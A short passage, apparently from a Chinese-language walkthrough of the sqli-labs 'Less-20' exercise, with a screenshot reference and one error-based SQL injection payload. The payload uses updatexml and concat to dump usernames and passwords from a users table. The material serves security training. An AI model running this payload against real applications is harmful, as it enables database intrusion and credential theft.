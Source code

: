 ![Less-20_15](./img/Less-20_15.PNG)



+ 爆破数据

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) #
~~~
